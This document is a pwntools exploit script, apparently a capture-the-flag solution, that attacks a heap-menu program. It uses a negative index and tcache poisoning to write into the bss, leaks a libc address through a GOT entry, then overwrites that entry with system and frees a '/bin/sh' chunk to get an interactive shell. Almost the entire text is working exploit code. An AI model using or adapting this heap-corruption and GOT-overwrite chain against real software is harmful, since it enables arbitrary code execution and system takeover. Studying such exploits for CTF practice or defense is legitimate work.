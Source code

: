 ```

if args.REMOTE:
    conn = ''.split()
    p = remote(conn[1], int(conn[2]))
else:
    p = process(exe.path)
GDB()

def add(index, size, data):
    sla(b'> ', b'1')
    sla(b'Index: ', str(index))
    sla(b'Size: ', str(size))
    sa(b'Data: ', data)

def edit(index, data):
    sla(b'> ', b'2')
    sla(b'Index: ', str(index))
    sa(b'Data: ', data)

def remove(index):
    sla(b'> ', b'3')
    sla(b'Index: ', str(index))

def read(index):
    sla(b'> ', b'4')
    sla(b'Index: ', str(index))

def exit():
    sla(b'> ', b'5')
    sla(b'Index: ', b'1')

bss = 0x4040e0

add(0, 0x10, b'b'*0x10)
add(-4, 0x10, b'a'*0x10)
add(1, 0x10, b'c'*0x10)
add(2, 0x10, b'd'*0x10)
remove(2)
remove(1)
pl = b'a'*0x10 + p64(0) + p64(0x21) + b'b'*0x10 + p64(0) + p64(0x21) + p64(bss)
edit(0, pl)
add(1, 0x10, b'c'*0x10)
add(2, 0x10, p64(0x404018))

# GDB()

read(0)
ru(b'Data: ')
libc.address = u64(r(6) + b'\x00\x00') - 575296
log.info(hex(libc.address))
edit(0, p64(libc.sym['system']))
add(4, 0x10, b'/bin/sh')
remove(4)

p.interactive()
```
